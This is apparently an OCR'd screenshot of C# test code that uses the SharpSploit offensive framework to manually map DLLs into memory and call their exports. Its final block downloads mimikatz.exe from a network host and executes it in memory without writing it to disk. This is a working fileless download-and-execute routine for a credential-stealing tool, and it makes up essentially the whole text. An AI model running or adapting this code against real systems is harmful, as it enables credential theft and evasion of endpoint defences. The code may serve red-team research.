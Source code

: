 ```csharp
            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedDLLModule(ManMapTest.PEINFO, ManMapTest.ModuleBase);

            Console.WriteLine();
            Console.WriteLine("\t[+] Calling Test DLL from memory by export (also calls DllMain as part of init)!\n");

            // (2) Call test DLL by export (Also calls DllMain as part of init)
            SharpSploit.Execution.PE.PE_MANUAL_MAP ManMapTest2 = SharpSploit.Execution.ManualMap.Map.MapModuleToMemory(@"C:\Users\thewover.CYBERCYBER\Source\Repos\ManualMapTest\ManualMapTest\Dll-Template.dll");
            object[] FunctionArgs = { };
            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedDLLModuleExport(ManMapTest2.PEINFO, ManMapTest2.ModuleBase, "test", typeof(TestFunc), FunctionArgs);

            Console.WriteLine();
            Console.WriteLine("[+] Mapping Test DLL from byte array and calling export!\n");

            Console.WriteLine();
            Console.WriteLine("\t[+] Calling Test DLL from memory by export (also calls DllMain as part of init)!\n");

            // (3) Map test DLL using byte array. Call by export like above.
            byte[] bytes = System.IO.File.ReadAllBytes(@"C:\Users\thewover.CYBERCYBER\Source\Repos\ManualMapTest\ManualMapTest\Dll-Template.dll");
            SharpSploit.Execution.PE.PE_MANUAL_MAP ManMapTest3 = SharpSploit.Execution.ManualMap.Map.MapModuleToMemory(bytes);
            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedDLLModuleExport(ManMapTest3.PEINFO, ManMapTest3.ModuleBase, "test", typeof(TestFunc), FunctionArgs);

            Console.WriteLine();
            Console.WriteLine("[+] Mapping and calling Mimikatz from memory (via download from URL)!\n");

            Console.WriteLine();
            Console.WriteLine("\t[+] Calling Mimikatz EXE from memory!\n");

            // (4) Mimikatz x64
            byte[] katzBytes = new System.Net.WebClient().DownloadData(@"http://192.168.123.227:8000/mimikatz.exe");
            SharpSploit.Execution.PE.PE_MANUAL_MAP ManMapKatz = SharpSploit.Execution.ManualMap.Map.MapModuleToMemory(katzBytes);
            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedPEModule(ManMapKatz.PEINFO, ManMapKatz.ModuleBase);

            Console.ReadLine();
        }
    }
}    

```
